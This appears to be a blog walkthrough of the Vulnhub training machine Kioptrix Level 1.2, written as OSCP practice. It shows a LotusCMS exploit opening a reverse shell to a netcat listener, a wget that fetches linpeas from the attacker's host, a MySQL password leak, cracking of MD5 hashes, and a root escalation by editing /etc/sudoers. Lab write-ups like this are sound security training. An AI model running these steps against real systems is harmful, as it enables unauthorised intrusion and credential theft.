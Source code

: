 ```yaml
---
layout: post
title: " Kioptrix - Level 1.2"
date: 2020-08-09
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.2 on Vulnhub"
tags: [SQL injection, command execution, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) Level 1.2 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.3 netdiscover](/assets/img/KioptrixLevel31.png)

Next, I ran **threader3000** and let it run its recommended nmap scan.

![Kioptrix Level 1.2 threader3000 nmap](/assets/img/KioptrixLevel32.png)

It appears that only SSH and HTTP are open.  Let's take a look at the website. It appears that there is a **Login** link on the main page.

![Kioptrix 1.2 Website](/assets/img/KioptrixLevel33.png)

Let's take a look at the login page. This gives us our first hint. This is running **LotusCMS**.

![Kioptrix Level 1.2 LotusCMS login](/assets/img/KioptrixLevel34.png)

I next ran a search on Google and came across the following [exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit).  This exploit appears to open a reverse shell as the user that is running the CMS. From my attacker PC, I ran **git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit.git**. This will make a copy of the exploit in a directory named **LotusCMS-Exploit**. Run **cd LotusCMS-Exploit** followed by **ls** to list the directory contents.

![Kioptrix Level 1.2 git clone LotusCMS Exploit](/assets/img/KioptrixLevel35.png)

Open up a second terminal windows, and run **nc -nvlp [port number]** where the port number is one of your choosing. This will open a listener to catch the reverse shell.

![Kioptrix Level 1.2 nc reverse shell](/assets/img/KioptrixLevel36.png)

Next, go back to your Lotus CMS exploit terminal window and run **./lotusRCE.sh**. This will explain how to use this exploit.

![Kioptrix Level 1.2 LotusRCE.sh usage](/assets/img/KioptrixLevel37.png)

Now that we know what we should be entering, let's run **./lotusRCE.sh [machine ip] /** . You should be notified that the site is vulnerable to injection and be asked for an IP to use which is **your attacker ip** and a port **the one you specified in your netcat listener**. Next, choose option **1** for the way to connect to your netcat listener.

![Kioptrix Level 1.2 LotusCMS Exploit options](/assets/img/KioptrixLevel38.png)

Once entered, press enter and go to your other terminal window on your attacker pc. You should now have an initial foothold on this box. Let's run **python -c 'import pty; pty.spawn("/bin/sh")'** to create a better shell.

![Kioptrix Level 1.2 initial foothold](/assets/img/KioptrixLevel39.png)

Running **whoami** reveals that you are running as **www-data**. Running **cat /etc/passwd** reveals 2 other nonroot users, **loneferret** and **dreg**.

![Kioptrix Level 1.2 whoami cat /etc/passwd](/assets/img/KioptrixLevel310.png)

I attempted to run **sudo -l** but was prompted for a password. Let's navigate to the tmp directory with  **cd /tmp**. This is typically a world writeable directory that we are going to save linpeas to in order to do further enumeration. On your attacker pc, start an HTTP server with **python3 -m http.server** in a directory you have linpeas saved in.

![Kioptrix Level 1.1 python3 http server](/assets/img/KioptrixLevel311.png)

On the victim terminal window with the initial foothold, let's run **wget http://[attacker ip]:8000/linpeas.sh** followed by **chmod +x linpeas.sh** to make it executable.

![Kioptrix Level 1.2 wget chmod](/assets/img/KioptrixLevel312.png)

Now, run this script with **./linpeas.sh**. This produces a massive amount of output as it appears that it has an old version of metasploit installed on it along with a lot of mysql activity. However, near the very end, we will uncover a password for mysql.

![Kioptrix Level 1.2 mysql password](/assets/img/KioptrixLevel313.png)

Let's try to connect to mysql as root with this wonderfully mature password. To do so, run **mysql -u root -p** and enter **fuckeyou** when prompted for the password.

![Kioptrix Level 1.2 mysql root access](/assets/img/KioptrixLevel314.png)

Success! Let's run **show databases;** to list the databases and select gallery with **use gallery;** Next, let's run **show tables;** and you will notice a table named **dev_accounts**. Let's run **select * from dev_accounts;** and you will see two sets of credentials with hashed passwords for dreg and loneferret.

![Kioptrix Level 1.1 Password Hashes](/assets/img/KioptrixLevel315.png)

I went to [Crackstation](https://crackstation.net) and entered these two hashes, which cracked these md5 hashes. 

![Kioptrix Level 1.1 crack md5 hash Crackstation](/assets/img/KioptrixLevel316.png)

We now have passwords of **Mast3r** for the user **dreg** and **starwars** for the user **loneferret**. Let's run **su loneferret** and enter the password cracked above and see what happens.

![Kioptrix Level 1.2 su loneferret](/assets/img/KioptrixLevel317.png)

Success! It appears that his password was reused. Let's open another terminal windows and run **ssh loneferret@[machine ip]** and enter his password of **starwars** to connect.

![Kioptrix Level 1.2 ssh](/assets/img/KioptrixLevel318.png)

We now have a more proper shell. Let's run **ls -al** to list the contents of loneferret's home directory.

![Kioptrix Level 1.2 ls home directory](/assets/img/KioptrixLevel319.png)

There's a README file in this folder. Let's run **cat CompanyPolicy.README** to take a look at it.

![Kioptrix Level 1.2 cat README](/assets/img/KioptrixLevel320.png)

Let's run **sudo -l** and see if loneferret can run ht with escalated privileges.

![](/assets/img/KioptrixLevel321.png)

It appears that it can be ran without a password as root! It also appears that **su** could be ran if that line of the file in **/etc/sudoers** could somehow be modified... Let's run **sudo ht** to open up this program.

![Kioptrix Level 1.2 sudo ht error](/assets/img/KioptrixLevel322.png)

Of course it couldn't be that simple. A quick Google search revealed that this error is due to an improper TERM variable value. Let's run **export TERM=xterm** to temporarily set it to xterm instead of xterm-256color.

![Kioptrix Level 1.2 TERM environment variable](/assets/img/KioptrixLevel323.png)

Now, let's try running **sudo ht** again. This will open **ht** which is an editor program of some sort. At the bottom you will notice numbers with commands by them. These are accessed by using the appropriate function key on your keyboard. Let's press **F3** to run the **open** command. 

![Kioptrix Level 1.2 ht editor](/assets/img/KioptrixLevel324.png)

In the box that pops up, enter in **/etc/sudoers** and press enter.

![Kioptrix Level 1.2 ht editor /etc/sudoers](/assets/img/KioptrixLevel325.png)

Success! We were able to open this file for editing due to us running this command as sudo. Let's remove the ! from in front of **/usr/bin/su** and press **F2** to save.

![Kioptrix Level 1.2 ht modify /etc/sudoers](/assets/img/KioptrixLevel326.png)

Next, press **F10** to exit ht, and run **sudo su**. Unfortunately, this does not work.

![Kioptrix Level 1.2 sudo su failure](/assets/img/KioptrixLevel327.png)

This is because **su** is in the **/bin** folder and not the **/usr/bin** folder. I then reran **sudo ht** and pulled up the **/etc/sudoers** file again and modified **/usr/bin/su** to **/bin/su**.

![Kioptrix Level 1.2 ht round 2](/assets/img/KioptrixLevel328.png)

Now once saved (with **F2**), press **F10** to exit back to terminal and run **sudo su** again.	

![Kioptrix Level 1.2 root shell](/assets/img/KioptrixLevel329.png)

Next I ran **cd /root** followed by **ls -al** to list the contents. there is a **Congrats.txt** file here. Let's read it with **cat Congrats.txt**.

![Kioptrix Level 1.2 root flag Congrats.txt](/assets/img/KioptrixLevel330.png)

With that, this box is complete!